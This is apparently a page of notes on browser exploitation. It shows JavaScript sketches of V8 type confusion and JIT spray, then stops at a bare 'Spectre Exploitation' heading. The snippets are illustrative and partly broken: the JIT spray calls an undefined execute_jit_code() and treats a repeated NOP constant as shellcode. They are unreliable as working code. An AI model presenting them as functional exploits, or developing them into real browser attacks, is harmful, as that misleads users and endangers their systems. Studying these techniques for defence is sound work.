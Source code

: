 ## Browser Exploitation

### V8 Engine Exploitation

```javascript
// Type confusion example
let oob_array = [1.1, 2.2, 3.3];
let obj_array = [{}, {}, {}];

// Trigger type confusion through optimization
function type_confuse(flag) {
    let a = flag ? oob_array : obj_array;
    return a[0];
}

// Force optimization
for (let i = 0; i < 100000; i++) {
    type_confuse(true);
}

// Trigger type confusion
let confused = type_confuse(false);
```

### JIT Spray

```javascript
// JIT spray technique
function jit_spray() {
    // Craft shellcode in constants
    let shellcode = 0x90909090;  // NOP sled
    
    function spray_func() {
        // Force JIT compilation with shellcode constants
        return shellcode + shellcode + shellcode;
    }
    
    // Trigger JIT compilation
    for (let i = 0; i < 100000; i++) {
        spray_func();
    }
    
    // Find JIT code page and execute
    execute_jit_code();
}
```

## Side-Channel Attacks

### Spectre Exploitation

